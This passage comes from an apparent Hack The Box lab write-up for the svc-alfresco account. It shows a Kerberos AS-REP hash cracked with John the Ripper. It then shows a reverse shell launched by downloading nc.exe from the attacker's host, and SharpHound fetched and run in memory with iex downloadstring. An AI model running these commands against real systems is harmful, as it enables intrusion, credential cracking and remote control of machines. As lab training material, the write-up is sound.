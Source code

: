 Awesome. Time to fire up John the Ripper.

```
# /opt/john/john -w:/usr/share/wordlists/rockyou.txt alfresco.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB)
1g 0:00:00:04 DONE (2019-10-17 12:19) 0.2267g/s 926476p/s 926476c/s 926476C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Low-Privilege Shell

Armed with the password of `svc-alfresco`, we can attempt PowerShell Remoting through WinRM with a very nifty tool—[evil-winrm](https://github.com/Hackplayers/evil-winrm).


{% include image.html image_alt="248ee2c9.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/248ee2c9.png" %}


Bam. There you have it. The file `user.txt` is at `svc-alfresco`'s desktop.


{% include image.html image_alt="e0c63812.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/e0c63812.png" %}


Once we have this "shell", we can transfer `nc.exe` from Kali Linux for a more traditional shell.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata> iwr http://10.10.14.192/nc.exe -outf .\cute.exe
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata> start-process -filepath .\cute.exe -argumentlist "10.10.14.192 1234 -e cmd.exe" -nonewwindow
```


{% include image.html image_alt="d6903f9b.png" image_src="/a7ce5de4-8c16-4379-9c8c-ac8ced7bbf15/d6903f9b.png" %}


## Privilege Escalation

During enumeration of `svc-alfresco`'s account, I noticed that the account has WriteDacl permissions. This is evident from the BloodHound collection.

```
PS C:\Users\svc-alfresco\appdata> iex (new-object net.webclient).downloadstring('http://10.10.14.192/SharpHound.ps1')
PS C:\Users\svc-alfresco\appdata> Invoke-Bloodhound -CollectionMethod All -LDAPPort 389 -LDAPUser svc-alfresco -LDAPPass s3rvice
```

I'll leave it as an exercise how to transfer the zipped JSON files over to your attacking machine for analysis.


[1]: https://www.hackthebox.eu/home/machines/profile/212
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/2984
[4]: https://www.hackthebox.eu/